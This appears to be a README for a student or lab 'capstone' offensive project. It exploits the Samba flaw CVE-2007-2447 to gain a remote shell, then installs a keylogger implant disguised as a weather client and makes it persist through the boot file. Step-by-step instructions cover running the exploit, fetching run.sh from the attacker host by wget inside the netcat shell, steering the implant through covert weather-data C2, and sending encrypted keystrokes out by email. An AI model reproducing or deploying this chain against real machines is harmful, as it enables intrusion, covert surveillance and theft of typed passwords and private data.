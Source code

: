 # Capstone

## Description
A cyber effect that exploits [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447), a vulnerability in the Samba server that allows remote code execution. The implant is injected into the [victim](#victim) machine using a weaponized [exploit](exploit/exploit.sh) and gathers key log data. Command and control communication is disguised as weather data requested by the implant over HTTP, and the key log data is encrypted and sent by the implant over SMTPS.

## Exploit Scripts
- [exploit](exploit/exploit.sh)
- [run keylogger](exploit/run.sh)
- [add keylogger to boot file](exploit/rewriteBoot.sh)

## Python Scripts
- [implant](python/weather.py)
- [server](python/server.py)
- [txt file with email contents](python/keylog.txt)
- [decrypt email](python/decrypt_email.py)

## Binary
- [implant compiled to binary](exploit/weather)

## Requirements
### Email
An email address, preferably temporary, is needed so that the keylogger can send the key log data out of the [victim](#victim) machine.

### Virtual Machines

### Attacker
- Linux-based machine with Python on it (Kali-Linux is recommended)
- Machine with Python on it to run the server script

### Victim
- [Ubuntu 8.04 Desktop with Samba installed](https://drive.google.com/file/d/1bCviB84Nn4B2H-JRrIk0tRF7tXcdrCtE/view?usp=sharing)

## How To Run
1. Turn on all three devices (both [attackers](#attacker) and [victim](#victim)). You don’t need to log into [victim](#victim), but you do need to log into both [Kali-Linux and Server](#attacker).
2. In the [Server](#attacker), start the [server script](python/server.py) and record the public IP address it is running on. It is in this window where commands that control the implant are issued.

    ```bash
    python3 server.py
    ```

3. In the [Kali-Linux](#attacker), copy all the bash script files and binary file into the same folder

    ```bash
    > ls # should see only four files
    exploit.sh rewriteBoot.sh run.sh weather
    ```

4. Start the attack by:

    ```bash
    chmod +x exploit.sh # give executable permission
    ./exploit.sh <Target IP> <Kali-Linux IP> # run exploit script
    ```

   Give it a few seconds; if nothing shows up after typing the command, give it another try.

5. Inside the netcat shell:

    ```bash
    wget http://<Kali-Linux IP>:8564/run.sh
    chmod +x run.sh
    ./run.sh <Kali-Linux IP> <Email Address> <Server IP>
    ```

   Terminate the process after a few seconds. You need to type CTRL+C twice, once for NetCat and once for the HTTP server.

## Usage
The implant is now running in the [victim](#victim) and we can control its behavior using the [Server](#attacker). By default, the [Server](#attacker) sends weather data with a temperature of 50&deg;F which instructs the keylogger to collect data. This attribute can be changed by entering a number in the window the [server script](python/server.py) is running in and pressing Enter.

- `input` ≤ 0&deg;F encrypts the key log data and sends it in an email to the provided email address.
- 0&deg;F < `input` ≤ 32&deg;F pauses the keylogger.
- 32&deg;F < `input` ≤ 70&deg;F resumes the keylogger.
- `input` > 70&deg;F stops the keylogger and removes the [implant](exploit/weather) and all files related to it on the [victim](#victim) machine.

The message that is sent to the email address is encrypted using AES. To decrypt it and view the key log data, copy the contents into the [keylog.txt](python/keylog.txt) file and then run the [decrypt_email.py](python/decrypt_email.py) script, ensuring that they are in the same directory.

```bash
python3 decrypt_email.py
```

The decrypted key log data will now be in [keylog.txt](python/keylog.txt).